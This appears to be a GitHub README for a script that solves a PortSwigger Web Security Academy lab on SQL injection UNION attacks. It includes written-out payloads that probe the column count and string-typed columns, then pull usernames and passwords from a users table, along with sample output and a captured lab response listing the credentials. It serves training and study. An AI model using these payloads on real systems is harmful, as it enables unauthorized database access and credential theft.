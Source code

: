 # 🔐 SQL injection UNION attack, retrieving multiple values in a single column

This script is designed to test for basic SQL injection vulnerabilities in labs from PortSwigger's Web Security Academy Lab: [SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-multiple-values-within-a-single-column/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column#). It targets endpoints like `/filter?category=` and checks whether a given payload successfully bypasses input validation.

---

## 🚀 How It Works

The script performs the following steps:

1. **Disables SSL warnings** to avoid certificate issues with lab URLs.
2. **Sets up a proxy** (default: `127.0.0.1:8080`) for interception via tools like Burp Suite.
3. **Accepts two arguments**:
   - `url`: The base URL of the lab.
   - `table`: Name of a separate table that needs be used during UNION SQL Injection.
   - `columns`: A list of columns can be passed by the user separated by space.
4. **Constructs the full request URL** by appending the payload to `/filter?category=`.
5. **Sends the request** and use beautiful soup library to fetch the password for administrator
6. **Prints the result** indicating whether the injection was successful.

---

## 🧪 Sample Usage

```bash
python3 unionRetrieveMultiValueInSingleColumn.py https://0aa800a003a881d480aa0dd20061002f.web-security-academy.net users username password
```

### ✅ Sample Output

```
(+) Targeting: https://0aa800a003a881d480aa0dd20061002f.web-security-academy.net
(+) Determining number of columns using ORDER BY...

    ➤ Testing payload: ' ORDER BY 1--
    ➤ Testing payload: ' ORDER BY 2--
    ➤ Testing payload: ' ORDER BY 3--

(✓) Found error at column 3, so total columns = 2

(+) Testing which of 2 columns accepts string data...

    ➤ Testing payload: ' UNION SELECT 'test123',null--
    ✗ Column 1 caused an error. Trying next...

    ➤ Testing payload: ' UNION SELECT null,'test123'--

(✓) Column 2 accepts string data.

(+) Attempting to extract data from table 'users'...

    ➤ Final payload: ' UNION SELECT null, username || '~' || password FROM users--

(✓) Administrator credentials found:

    ➤ Username: administrator
    ➤ Password: voif5hady7oywwwt6twd
```

---

## 📌 Lab-Specific Note

For this particular lab, the script checks whether the response contains the administrator password in a particular html tag using web scraping to determine success. You can modify this logic in the code to match other labs or contexts.

---

## 📦 Requirements

Install dependencies using:

```bash
pip install -r requirements.txt
```

---

## 📦 Walkthrough of the code
[Code Walkthrough](https://medium.com/@adhithyasivanesh/portswigger-web-security-academy-labs-sqli-lab-1-retrieving-hidden-data-fe40ea356d5d)

## Sample HTML response which was scrapped

```HTML
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=d4DbcIvc5dotUTVqJl5yt2x1lGxy1gb8; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 4310

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>SQL injection UNION attack, retrieving multiple values in a single column</title>
    </head>
    <body>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>SQL injection UNION attack, retrieving multiple values in a single column</h2>
                            <a id='lab-link' class='button' href='/'>Back to lab home</a>
                            <a class=link-back href='https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <div theme="ecommerce">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <section class="ecoms-pageheader">
                        <img src="/resources/images/shop.svg">
                    </section>
                    <section class="ecoms-pageheader">
                        <h1>Gifts&apos; UNION SELECT null, username || &apos;~&apos; || password FROM users--</h1>
                    </section>
                    <section class="search-filters">
                        <label>Refine your search:</label>
                        <a class="filter-category" href="/">All</a>
                        <a class="filter-category" href="/filter?category=Accessories">Accessories</a>
                        <a class="filter-category" href="/filter?category=Clothing%2c+shoes+and+accessories">Clothing, shoes and accessories</a>
                        <a class="filter-category" href="/filter?category=Lifestyle">Lifestyle</a>
                        <a class="filter-category" href="/filter?category=Pets">Pets</a>
                        <a class="filter-category" href="/filter?category=Tech+gifts">Tech gifts</a>
                    </section>
                    <table class="is-table-list">
                        <tbody>
                        <tr>
                            <th>wiener~0g163eearebih36pgn65</th>
                        </tr>
                        <tr>
                            <th>carlos~k0fwfkvx0npqfftawr40</th>
                        </tr>
                        <tr>
                            <th>administrator~voif5hady7oywwwt6twd</th>
                        </tr>
                        </tbody>
                    </table>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>
```